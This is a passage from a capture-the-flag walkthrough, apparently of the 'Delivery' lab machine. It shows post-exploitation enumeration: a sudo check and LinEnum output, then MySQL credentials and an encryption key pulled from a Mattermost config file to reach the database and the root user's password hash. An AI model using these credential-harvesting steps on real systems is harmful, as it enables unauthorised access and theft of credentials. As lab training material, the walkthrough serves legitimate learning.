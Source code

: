 ### Gaining access to SQL server
First, we will try to check the permissions of the user using ```sudo -l```. However, this user is unable to run sudo commands.

```
maildeliverer@Delivery:~$ sudo -l
[sudo] password for maildeliverer: 
Sorry, user maildeliverer may not run sudo on Delivery.
```

However what is interesting is that using the LinEnum script, we can find a process binary where the owner is the ```mattermost``` user.

```
[-] Process binaries and associated permissions (from above list):
1.2M -rwxr-xr-x 1 root       root       1.2M Apr 18  2019 /bin/bash
1.5M -rwxr-xr-x 1 root       root       1.5M Oct 24  2020 /lib/systemd/systemd
144K -rwxr-xr-x 1 root       root       143K Oct 24  2020 /lib/systemd/systemd-journald
228K -rwxr-xr-x 1 root       root       227K Oct 24  2020 /lib/systemd/systemd-logind
 56K -rwxr-xr-x 1 root       root        55K Oct 24  2020 /lib/systemd/systemd-timesyncd
664K -rwxr-xr-x 1 root       root       663K Oct 24  2020 /lib/systemd/systemd-udevd
 85M -rwxrwxr-x 1 mattermost mattermost  85M Dec 18  2020 /opt/mattermost/bin/mattermost
```

Navigating to /opt/mattermost/config/config.json, we are able to obtain the database connection string 

```
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
```

With the username and password, we can access then gain access to the database.

```
maildeliverer@Delivery:~$ mysql -u mmuser -p
Enter password: 
MariaDB [(none)]> 
```

Next, we will use the configure the sql server to use the mattermost database, and also obtain the hashed password from the root user.

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use mattermost;
Database changed
MariaDB [mattermost]> show tables;
```